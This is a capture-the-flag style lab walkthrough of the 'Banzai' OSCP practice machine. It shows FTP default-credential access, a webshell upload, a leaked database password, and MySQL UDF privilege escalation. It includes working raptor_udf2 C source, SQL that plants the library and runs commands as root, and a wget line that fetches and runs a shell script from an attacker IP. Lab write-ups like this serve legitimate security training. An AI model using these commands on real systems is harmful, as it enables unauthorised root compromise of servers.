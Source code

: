 # Banzai Helped-through
Name: Banzai
Date:  
Difficulty:  Interme
Goals:  OSCP Prep
Learnt: 
- Web is a pyschological rabbit hole for me.
- Try default creds on all ftp 
- port number matter more than I thought in 
- mysql has a shell run system commands from mysql:  `\!` 


## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

SSL recently has been a massive headache in alot of my venture in hoping to improve.
![](diffiehellmanvuln.png)  

I downloaded the site, but there is no contact form...

![](noregnacontactform.png)

Found the above very disconcerting as it would hosted elsewhere. Or because its actually the same directory as ftp. I did loads of recon and exploit hunting, but at the end of the day Web is a pyschological rabbit hole for me on top of potential rabbithole.

## Exploit && Foothold

`admin:admin` on ftp... added this to a list things I am an idiot about. This was a massive ouch moment. I am sure there is a Alhazred quote in the back of my mind *"Sometime it just the ftp..."*. 

![](banzaiftpadmin.png)
![]()
Becuase you are `admin` you can upload a shell and due to it also being the web directory use a webshell. 
![](uploadwebshell.png)

It needs to be port 21, because of [[waf-detect-http___192.168.141.56_8295_-apachegeneric]]
![](revshell.png)

## PrivEsc

I decide to close the walkthrough for the next thirty miniutes. Had more trouble connecting back ...

admin user!

![](passinconfigphp.png)

`EscalateRaftHubris123`

/var/log/mail.log - denied

Why is there an mysql and postgres, and the mysql 
![](3306.png)

Root should never run any service!
![](rootprivmysqlproc.png)
The mysql credentials above then make more sense.

![](raptordotcusage.png)

The first step makes and object file.

```
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc <,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

This was a nice reminder why I like clang.
![](compilation.png)

```
#include <stdio.h>
#include <stdlib.h>
 
enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};
 
typedef struct st_udf_args {
        unsigned int arg_count; // number of arguments
        enum Item_result *arg_type; // pointer to item_result
        char **args; // pointer to arguments
        unsigned long *lengths; // length of string args
        char *maybe_null; // 1 for maybe_null args
} UDF_ARGS;
 
typedef struct st_udf_init {
        char maybe_null; // 1 if func can return NULL
        unsigned int decimals; // for real functions
        unsigned long max_length; // for string functions
        char *ptr; // free ptr for func data
        char const_item; // 0 if result is constant
} UDF_INIT;
 
int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
        if (args->arg_count != 1) {
                return(0);
        }
        system(args->args[0]);
        return(0);
}
 
char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
        return(0);
}
```

UDF - User defined functions.

1. Discover where the installation of MySQL stores its UDFs

```sql
show variables like 'plugin_dir';
show variables like 'secure_file_priv';
```

![](sqlinrecon.png)

```sql
use mysql;
create table foo(line blob);
-- Load the shared library file into the table
insert into foo values(load_file('/var/www/raptor_udf2.so'));
-- Dump our table into the live shared library file that mysql is using
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
-- make a function that returns the 0 to shared libary name
create function do_system returns integer soname 'raptor_udf2.so';
-- it because sets our id to 0, therefore root, wow
select do_system('id > /var/www/out; chown www-data.www-data /var/www/out');
\! sh -- run sh from mysql
cat /var/www/out 
```

We run commands as root so we need a another revserve shell
![](notrootyet.png)

I instead of facing the hell hole that is compatiblity and compilation i just transfered a bash  shell.  One day I will finish what is currently named ninjashell to end this nightmare.

```sql
select do_system('wget http://192.168.49.113:8295/shell.sh -O /var/www/shell.sh');
select do_system('chmod 777 /var/www/shell.sh');
select do_system('/var/www/shell.sh');
```

![](whataroot.png)

What a machine. Wow! I learnt alot.